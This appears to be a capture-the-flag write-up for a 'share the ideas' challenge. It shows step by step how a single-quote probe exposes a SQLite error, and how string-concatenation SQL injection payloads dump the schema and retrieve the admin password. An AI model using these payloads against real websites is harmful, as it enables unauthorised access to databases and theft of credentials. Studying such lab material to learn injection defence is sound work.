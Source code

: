 # share the ideas

1. Access the target website and create an account.

2. In the text field, enter a test value like:

   ```
   hhh
   ```

3. Then try adding a single quote to check for SQL errors:

   ```
   hhh'
   ```

   The response shows:

   ```
   Error : HY000 1 unrecognized token: "'hhh'')"
   ```

   This indicates a SQLite syntax error, confirming possible SQL injection.

4. To reveal the database schema, use:

   ```
   hhh' || (SELECT sql FROM sqlite_master))--
   ```

   Output:

   `
   "hhhCREATE TABLE "xde43_users" ( "id" int(10) NOT NULL, "name" varchar(255) NOT NULL, "email" varchar(255) NOT NULL, "password" varchar(255) NOT NULL, "role" varchar(100) DEFAULT NULL )"
   `

5. To retrieve the admin password:

   ```
   hhh' || (SELECT password FROM xde43_users WHERE role='admin'))--
   ```

6. Submit the password as flag and solve the challenge.
